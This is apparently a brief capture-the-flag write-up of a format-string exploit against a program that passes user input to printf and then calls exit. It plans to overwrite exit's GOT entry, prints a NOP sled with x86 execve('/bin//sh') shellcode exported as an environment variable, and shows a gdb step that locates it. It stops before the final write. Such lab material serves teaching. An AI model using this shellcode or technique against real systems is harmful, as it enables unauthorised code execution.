


```
looking at the program it takes our input using fgets then store it into an array and call printf on that array

then call the exit function
```

```
we will try to override the address of the exit function call in the GOT table

lets gets address of exit first
```


```

lets put our shellcode in the environment variable SHELLCODE

export SHELLCODE=$(python -c "print '\x90' * 64 + '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'")

gdb> x/s *((char**)environ)
0xffffd895:	 "SHELLCODE=[...]"
# Our shellcode is at address 0xffffd895 + 10 == 0xffffd89f
```
```
we already figured that our input is stored at the 10'th element


# Now we want to set the 4 lower bytes then the 4 higher bytes of the exit function call to match the address of our shellcode


```
